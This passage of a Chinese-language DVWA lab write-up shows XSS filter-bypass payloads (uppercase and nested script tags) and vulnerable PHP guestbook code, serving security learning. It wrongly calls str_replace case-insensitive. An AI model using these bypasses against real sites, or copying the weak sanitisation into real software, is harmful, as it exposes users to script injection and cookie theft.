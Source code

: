 http://192.168.31.84:81/vulnerabilities/xss_r/?name=%3Cscript%3Ealert(%27xss%27)%3C/script%3E

## medium模式
源码里检查了script标签
```
 // Get input
    $name = str_replace( '<script>', '', $_GET[ 'name' ] );
```
str_replace这个函数是不区分大小写的，而且只替换一次
改成大写就可以了``<SCRIPT>alert('xss')</script>``
或者嵌套``<scr<script>ipt>alert('xss')</script>``

但对name审查没有这么严格，同样可以采用嵌套或大小写的方法：
```
<scr<script>ipt>alert('fuck')</script>
<SCRIPT>alert('fuck')</script>
```


# 存储型xss
## easy模式
> “跨站点脚本（XSS）”攻击是一种注入问题，其中恶意脚本被注入到其他良性和可信赖的网站中。当攻击者使用Web应用程序将恶意代码（通常以浏览器端脚本的形式）发送给不同的最终用户时，就会发生XSS攻击。允许这些攻击成功的缺陷非常普遍，并且发生在使用输出中的用户输入的Web应用程序的任何地方，而不验证或编码它。
>
> 攻击者可以使用XSS将恶意脚本发送给毫无戒心的用户。最终用户的浏览器无法知道该脚本不应该被信任，并将执行JavaScript。因为它认为脚本来自可靠来源，所以恶意脚本可以访问您的浏览器保留并与该站点一起使用的任何cookie，会话令牌或其他敏感信息。这些脚本甚至可以重写HTML页面的内容。
>
> XSS存储在数据库中。 XSS是永久性的，直到重置数据库或手动删除有效负载。
>

查看源码
trim是去除掉用户输入内容前后的空格。stripslashes是去除反斜杠，两个只会去除一个。mysqli_real_escap_string过滤掉内容中特殊字符，像x00,n,r,,',",x1a等，来预防数据库攻击。
```php
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = stripslashes( $message );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Sanitize name input
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
}

?>
```